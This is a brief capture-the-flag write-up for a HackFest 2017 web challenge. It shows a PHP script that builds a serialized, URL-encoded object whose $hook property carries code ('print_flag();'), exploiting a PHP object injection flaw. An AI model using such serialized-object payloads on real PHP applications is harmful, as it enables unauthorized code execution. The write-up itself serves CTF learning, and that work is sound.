 ```yaml
---
layout: post
title: Web 10
category: HackFest Final 2017
---
```


Simple PHP Object Injection vulnerability 

call print_flag() 

```
<?php
class Hackfest
{
   private $hook = "print_flag();";

}
print urlencode(serialize(new Hackfest));
?>


```
